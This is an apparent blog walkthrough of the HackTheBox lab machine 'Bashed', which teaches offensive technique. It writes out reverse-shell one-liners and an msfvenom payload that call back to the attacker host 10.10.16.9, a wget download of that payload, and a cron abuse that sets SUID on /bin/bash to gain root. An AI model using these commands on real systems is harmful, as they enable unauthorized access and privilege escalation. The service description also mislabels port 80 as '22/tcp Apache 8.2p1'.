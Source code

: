 ```yaml
---
title: Bashed
published: true
layout: post
---
```


<br />

---------------
Bashed is a fairly easy machine which focuses mainly on fuzzing and locating important files. As basic access to the crontab is restricted, the privilege escalation is based on deductions about timestamps.

<br />

<iframe style="aspect-ratio: 16 / 9; width: 65%; display: block; margin: auto;" src="https://www.youtube.com/embed/n7F_j56_pis?si=6Piixew4KatDnvxU" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>

<br />

---------------------------------------------------

<br />

## Walkthrough

### Reconnaissance

We will start by **scanning protocolos** in the target machine, this can be divided in 3 phases:
1. Scan for **open ports**.
2. Scan for **services** in these open ports.
3. Scan for **vulnerabilities** in these services.

<br />
Let's start by scanning for **open ports**:

```bash
sudo nmap -sS -sU 10.10.10.68 -p- -T4 --min-rate 5000 -oN all_ports.txt --open -n -Pn -v
```

![](/assets/Bashed/1.png)
<br />
<br />
<br />

There is **1 open port**:
+ **80/tcp**

<br />
Let's check which **service** is running in this port:

```bash
sudo nmap -sS 10.10.10.68 -p 80 -T4 --min-rate 5000 -oX open_ports.xml -oN open_ports.txt --version-all -n -Pn -A -v
```

![](/assets/Bashed/2.png)
<br />
<br />
<br />

We can see that the service corresponds to:
+ **22/tcp Apache 8.2p1**

<br />

Now we will seek for **vulnerabilities**:

```bash
sudo nmap -sS 10.10.10.68 -p 80 -T4 --min-rate 5000 --script="vuln and safe or intrusive and safe or discovery" -oN vulns.txt -oX vulns.xml -n -Pn -v
```

![](/assets/Bashed/3.png)
<br />
<br />
<br />

We can see a few **folders**, but nothing really interesting.

<br />

------

<br />
### Foothold

This machine runs a **[GitHub project](https://github.com/Arrexel/phpbash)** which works as a **webshell**, the main difficulty of the foothold was **finding were the webshell is located** and **evading security measures** for reverse shells.

<br />

When entering the website, this is the first thing we can see:

![](/assets/Bashed/4.png)
<br />
<br />
<br />

A quick search in google revealed the project used in this website:

![](/assets/Bashed/5.png)
<br />
<br />
<br />

This project comprehends a semi-interactive webshell, which we can use to gain access to the machine. However, we first need to find where is this webshell located, we can use gobuster for this:

```bash
gobuster dir -u http://10.10.10.68 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x txt,php,bak,php.bak,html -o gobuster_dir_and_file_enum_80.txt -t 25 -r
```

![](/assets/Bashed/6.png)
<br />
<br />
<br />

After checking in each folder, finally I found the webshell in ***/dev/phpbash.php***:

![](/assets/Bashed/7.png)
<br />
<br />
<br />

I tried to gain a reverse shell with commands like `bash -c 'bash -i >& /dev/tcp/10.10.16.9/4444 0>&1'` or `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.9 4444 >/tmp/f`, so I tried to **create a malicious file** and send it to the target machine:

```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=tun0 LPORT=4444 --platform linux -f elf -o revshell.elf
sudo python3 -m http.server 80
```
<br />

Now, from the webshell, we can download it, however, we have to **download it from */tmp***, as we have no write permissions:

```bash
cd $(mktemp -d)
wget http://10.10.16.9/revshell.elf
```

![](/assets/Bashed/8.png)
<br />
<br />
<br />

Now we just have to **setup a listener in our machine and execute the file**, but first we have to give the file **execution privileges**:

```bash
rlwrap nc -nlvp 4444
```

```bash
chmod 777 revshell.elf
./revshell.elf
```

![](/assets/Bashed/9.png)
<br />
<br />
<br />

And just like this we got the foothold on the machine:

![](/assets/Bashed/10.png)
<br />
<br />
<br />

We can **grab the flag**, located in the directory of the **user *arrexel***:

![](/assets/Bashed/11.png)
<br />
<br />
<br />

------

<br />
### Privilege Escalation

For this privilege escalation, we first have to **pivot to another user and then to root**.

<br />

Enumerating www-data privileges, I discovered that it can **run any command without password as the user *scriptmanager***:

```bash
sudo -l
```

![](/assets/Bashed/12.png)
<br />
<br />
<br />

With this information we can pivot right away to this user:

```bash
sudo -u scriptmanager bash -i
```

![](/assets/Bashed/13.png)
<br />
<br />
<br />

Enumerating scriptmanager's files, I discovered a directory named /scripts:
```bash
find / -user $(whoami) -ls 2>/dev/null | grep -v -e "/proc/*" -e "/sys/*" -e "/run/*"
```

![](/assets/Bashed/14.png)
<br />
<br />
<br />

In this directory we can see **two files**, one owned by root and the other by scriptmanager, the **file owned by scriptmanager writes its contents to the file owned by root**, however it is **not specified in any place that it changes the ownership**, which means that **root is executing this script**.

![](/assets/Bashed/15.png)
<br />
<br />
<br />

We could confirm this by running the [PsPy](https://github.com/DominicBreuker/pspy?tab=readme-ov-file) tool, which indicates that a **CRON job** is running, which executes **every file ending in with a *.py* extension that is located in the */scripts* directory**:

![](/assets/Bashed/16.png)

Knowing this, we just have to **create a python file that set the SUID bit to the bash binary**:

```bash
echo "import os; os.system('chmod u+s /bin/bash')" > privesc.py
```

<br />

We can confirm that the script have been executed and escalate privileges:

```bash
bash -p
```

![](/assets/Bashed/17.png)
<br />
<br />
<br />

Finally, we can get our well-deserved **root flag**:

![](/assets/Bashed/18.png)
<br />
<br />
<br />
